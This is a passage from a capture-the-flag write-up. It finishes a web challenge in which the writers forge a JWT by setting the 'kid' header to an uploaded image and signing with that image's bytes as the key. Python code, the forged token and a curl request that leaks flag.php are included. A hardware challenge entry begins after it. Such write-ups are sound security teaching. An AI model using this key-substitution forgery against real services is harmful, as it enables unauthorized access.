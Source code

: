 So, what if instead of using the /tmp/jwt.key as a secret to create the JWT signature, we use the uploaded image ? Then, we use that image to generate a valid JWT token where the payload will mention the location of the flag which is in /flag.php .

We ran few python3 commands as following:

``python3``

```python3
import jwt
f = open("1608321992782.png", "rb")
key=f.read()
jwt.encode({"banner": "flag.php"}, key, algorithm='HS256', headers={'kid': 'b/src/1608321992782.png'})
```

Output:

```
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6ImIvc3JjLzE2MDgzMjE5OTI3ODIucG5nIn0.eyJiYW5uZXIiOiJmbGFnLnBocCJ9.K43hF2SgDEu7xZYABatOzV3aj4E2wWcgVNEbAJ3H10o'
```

And that's how we get the new JWT token.

Then, we used it when we requested the /getbanner.php web page as following:

```shell
curl 'http://challs.xmas.htsp.ro:3010/getbanner.php' -H 'Cookie: banner=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6ImIvc3JjLzE2MDgzMjE5OTI3ODIucG5nIn0.eyJiYW5uZXIiOiJmbGFnLnBocCJ9.K43hF2SgDEu7xZYABatOzV3aj4E2wWcgVNEbAJ3H10o'
```

Output:
```
<?php

$flag = "X-MAS{n3v3r_trust_y0ur_us3rs_k1ds-b72dcf5a49498400}";

?>
```

So, the flag is: ``X-MAS{n3v3r_trust_y0ur_us3rs_k1ds-b72dcf5a49498400}``
___





## Santa's Landing Pad

**Category:** Hardware
**Points:** 354
**Author:** trupples
**Description:**

>The elves and I have been working on some christmas lights to aid Santa in landing back home in the fog. (You have NO IDEA how much we pay in repairs every few years) Check them out! https://www.youtube.com/watch?v=162DpMTMfMI
